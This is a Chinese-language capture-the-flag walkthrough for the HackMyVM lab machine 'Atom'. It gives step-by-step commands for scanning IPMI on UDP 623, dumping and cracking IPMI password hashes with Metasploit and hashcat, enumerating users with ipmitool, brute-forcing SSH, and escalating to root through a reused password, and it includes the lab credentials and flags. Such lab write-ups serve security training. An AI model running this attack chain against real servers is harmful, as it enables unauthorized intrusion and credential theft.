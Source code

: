 # Atom

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Atom

[video]()

## Ip

192.168.5.39

## Scan

tcp 上没开放端口，udp 上开放了 623/udp open asf-rmcp 是一种 IPMI 协议：

```
sudo nmap -sU --min-rate 10000 --top-ports 2000 192.168.5.40
```

在 msf 中有这样的扫描模块：auxiliary/scanner/ipmi/ipmi_cipher_zero 确认存在漏洞之后，可以使用这个模块 dump 枚举出的用户的密码 auxiliary/scanner/ipmi/ipmi_dumphashes (参考链接 https://hacktricks.boitatech.com.br/pentesting/623-udp-ipmi)

```
Hash for user 'admin' matches password 'cukorborso'
```

使用获得的凭据进行 ssh 登陆，不行。在用上面的这个凭据，在获取一下 user list：

```
sudo apt install ipmitool
ipmitool -I lanplus -H 192.168.5.40 -U admin -P cukorborso user list|awk -F ' ' '{print $2}'|grep -v 'true' > name.txt
```

将获得的用户名和哈希保存到 dump 文件，进行处理：

```
cat dump|awk -F ' ' '{print $8}'|awk -F ':' '{print $2":"$3}' > hash1
```

然后用 hashcat 7300 模式进行破解：

```
hashcat -a 0 -m 7300 hash1 /usr/share/wordlists/rockyou.txt --potfile-disable
```

然后将结果保存，进行处理，拿到最后一个字段：

```
cat out|awk -F ':' '{print $3}' > pass
```

然后将上面获得的 user 和 pass 进行 ssh 爆破,找到 1 个登陆凭据：

```
[22][ssh] host: 192.168.5.40   login: onida   password: jiggaman
```

直接拿到 user flag:

```
onida@atom:~$ cat user.txt
f75390001fa2fe806b4e3f1e5dadeb2b
```

在 /var/www/html 目录中发现 atom-2400-database.db ，查看其内容，爆破 user 表种 atom 用户的密码为 madison ，尝试用密码 madison 切换到 root，切换成功。

root flag:

```
root@atom:~# cat root.txt
d3a4fd660f1af5a7e3c2f17314f4a962
```
